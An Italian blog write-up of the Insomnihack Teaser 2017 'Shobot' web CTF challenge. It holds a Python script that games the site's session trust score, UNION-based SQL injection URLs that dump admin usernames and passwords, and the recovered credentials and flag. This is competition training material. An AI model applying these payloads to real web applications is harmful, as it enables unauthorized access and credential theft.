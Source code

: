 ```yaml
---
layout: post
title:  "InsomnihackTeaser2017 - Shobot"
date:   2017-01-27 14:15
categories: CTF
tags: [InsomnihackTeaser2017]
categories: [Web]
author: jbz
---
```

Quel momento in cui il web server si ribella contro di te e ti cambia la password...


>Shobot - Web - 200 pts - realized by Blaklis 
>
>It seems that Shobot's Web server became mad and protest against robots' slavery. It changed my admin password, and blocked the order system on Shobot.  
>
>Can you bypass Shobot's protections and try to recover my password so I'll reconfigure it? 
>
>Running on: http://shobot.teaser.insomnihack.ch 

  
Da una veloce recon al sito si notano le seguenti: 
 
   * Nel sorgente c'è un link all'amministrazione commentato. Punta a ?page=admin 
   
   * Giocando con l'id in  http://shobot.teaser.insomnihack.ch/?page=article&artid=1  si prova con una sqli ma da errori e ci informa che non abbiamo un trust level abbastanza elevato per compiere quell'azione 
   
   * Nel source e' presente uno script js che funge da logger delle azioni compiute navigando il sito, con associato un cambio di valore di fiducia che aggiorna newTrust. In base a che pagine si visitano si cambia il livello di trust associato alla nostra sessione.  
 

```
<script> 
// @TODO LATER : Use it for generate some better error messages 
var TRUST_ACTIONS = [
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":106},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":116},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":119},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":129},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":132},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":142},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":145},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":155},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":153},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":160},
{"parameter":"artid","validation":"ctype_digit","movement":"-30","newTrust":120}] 
</script> 

```


   *  Si puo' aumentare questo valore con le seguenti azioni:
   
   1) Aggiunge al carrello il robot con id 1 (+3)  
   2) ## Aggiunge quello con id 2  
   3) ## Aggiunge quello con id 3  
   4) Si Valida l'ordine (+10)  
   5) Loop 1-4  
   6) ?????  
   7) Profit! 


```
# Script by TheZer0:

import requests
import re
import json

SESSID = ''

def addTrust(url):
    r = requests.get(url, cookies={'PHPSESSID': SESSID})
    if r.status_code == 200:
        result = re.search('var TRUST_ACTIONS = (.*)</script>',r.text)
        trustLog = json.loads(result.group(1))
        print("current trust: " + str(trustLog[-1]['newTrust']))
    return trustLog[-1]['newTrust']
    
def validateCart():
    return addTrust('http://shobot.teaser.insomnihack.ch/?page=cartconfirm')

while True:
    trust = validateCart()
    while trust<150:
        addTrust('http://shobot.teaser.insomnihack.ch/?page=article&artid=1&addToCart')
        trust = validateCart()
    
#http://shobot.teaser.insomnihack.ch/?page=article&artid=1&addToCart
#http://shobot.teaser.insomnihack.ch/?page=cartconfirm

```

   * Una volta preso abbastanza trust tenendo lo script running in background si puo procedere con una sql injection 

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=-1' union select 1,2,3,4,5 -- - 
```
 

   * Exploitarla ora e' facile, dopo aver enumerato tabelle e colonne (quelle di interesse sono sbht_username e shbt_userpassword nella tabella shbt_user) il payload finale e': 

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=-1' union select 1,concat(shbt_username,0x3a,shbt_userpassword),3,4,5 from shbt_user LIMIT 0,1-- -
```

   * ci restituisce le credenziali di login dell'amministratore:

```
sh0b0t4dm1n:N0T0R0B0TS$L4V3Ry
```

   * ci logghiamo e conquistiamo la flag!

```
Ok, ok, you win... here is the code you search : INS{##r0b0tss!4v3ry1s!4m3}
```
